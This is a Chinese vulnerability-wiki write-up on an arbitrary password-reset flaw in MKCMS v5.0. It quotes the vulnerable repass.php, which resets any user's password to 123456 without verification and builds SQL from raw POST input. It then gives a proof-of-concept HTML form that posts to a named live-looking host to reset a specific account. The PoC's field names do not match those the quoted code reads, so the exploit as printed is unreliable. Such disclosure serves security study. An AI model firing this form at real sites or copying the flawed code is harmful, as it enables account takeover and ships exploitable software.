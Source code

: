 MKCMS v5.0 任意密码重置漏洞
===========================

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/repass.php`第1-44行:

    <?php 
    include('../system/inc.php');
    if(isset($_SESSION['user_name'])){
    header('location:index.php');
    };

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    $email = trim($_POST['email']);
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username' and u_email='$email'");
    if(!! $row = mysql_fetch_array($query)){
    $_data['u_password'] = md5(123456);
    $sql = 'update mkcms_user set '.arrtoupdate($_data).' where u_name="'.$username.'"';
    if (mysql_query($sql)) {

    $token =$row['u_question'];
    include("emailconfig.php");
        //创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.
        $smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true); 
        $smtp->debug = false; 
        $mailType = "HTML"; //信件类型，文本:text；网页：HTML
        $email = $email;  //收件人邮箱
        $emailTitle = "".$mkcms_name."用户找回密码"; //邮件主题
        $emailBody = "亲爱的".$username."：<br/>感谢您在我站注册帐号。<br/>您的初始密码为123456<br/>如果此次找回密码请求非你本人所发，请忽略本邮件。<br/><p style='text-align:right'>-------- ".$mkcms_name." 敬上</p>";

        // sendmail方法
        // 参数1是收件人邮箱
        // 参数2是发件人邮箱
        // 参数3是主题（标题）
        // 参数4是邮件主题（标题）
        // 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
        $rs = $smtp->sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType);
    if($rs==true){
    echo '<script>alert("请登录到您的邮箱查看您的密码！");window.history.go(-1);</script>';
    }else{
    echo "找回密码失败";
    }

    }
    }
    }

    ?>

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

![](/Users/aresx/Documents/VulWiki/.resource/MKCMSv5.0任意密码重置漏洞/media/rId24.jpg)

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

    <html>
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="http://v.micool.top/ucenter/repass.php" method="POST">
          <input type="hidden" name="u&#95;name" value="lduo123" />
          <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
          <input type="submit" value="Submit request" />
        </form>                         
      </body>
    </html>

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
>
> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html
